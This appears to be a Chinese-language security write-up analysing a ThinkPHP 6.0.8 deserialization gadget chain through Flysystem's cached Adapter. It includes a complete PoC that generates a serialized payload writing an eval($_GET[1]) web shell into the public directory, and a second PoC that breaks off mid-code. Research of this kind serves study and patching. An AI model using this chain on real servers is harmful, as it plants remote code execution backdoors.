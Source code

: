 ### 环境

这里装 tp6.0.8  
composer create-project topthink/think=6.0.x tp6.0.8  
老规矩删 lock 文件改 comoser.json 重新 composer install 一遍

### 调试

很简单的链子。应该是最短的了 Poc:

```bash
<?php
namespace League\Flysystem\Adapter;
class Local{}
namespace League\Flysystem\Cached\Storage;
use League\Flysystem\Adapter\Local;
abstract class AbstractCache{
    protected $autosave;
    protected $cache = [];
}
class Adapter extends AbstractCache{
    protected $adapter;
    protected $file;
    function __construct(){
        $this->autosave=false;
        $this->adapter=new Local();
        $this->file='huahua.php';
        $this->cache=['huahua'=>'<?php eval($_GET[1]);?>'];
    }
}
$o = new Adapter();
echo urlencode(serialize($o));

?>
```

入口点是 abstract class AbstractCache 中的\_\_destruct 方法  
但是 PHP 的抽象方法不能被实例化，因此需要实例化它的子类，这里选择的是 League\\Flysystem\\Cached\\Storage 的 Adapter.php  
然后进入 Adapter.php 的 save() 方法：目标是进入 write() 方法，里面有`file_put_contents,这里参数都可以控制首先看一下getForStorage()方法,它影响了write函数写入文件的内容content它会返回一个json加密的数据,这个参数是cache,protected $cache = [];我们实例化的时候可控进入`cleanContents()`函数:我们只需要传入的cache是一个一维数组就不会进入if语句然后考虑这个this->adapter变量,这里找的是同时具有`has()\`方法和 write() 方法的类，找到的是 League\\Flysystem\\Adapter 的 Local.php  
首先 has 方法我们需要保证返回 false 进入 applyPathPrefix() 很简单的字符串拼接，我们传入的$this->file 只要是一个不存在的文件就行进入 write() 方法一样的先调用 applyPathPrefix() 方法，拼接一下文件路径，这里做的限制是删除路径的/字符，tp 默认写入文件就是 public 目录我们不需要设置路径最后成功写入木马  
此外我们看下 Y4tacker 师傅的 poc

```bash
<?php

namespace League\Flysystem\Cached\Storage{

    use League\Flysystem\Filesystem;

    abstract class AbstractCache{
        protected $autosave = false;


    }
    class Adapter extends AbstractCache
    {
        protected $adapter;
        protected $file;

        public function __construct(){
            $this->complete = "*/<?php phpinfo();?>";
```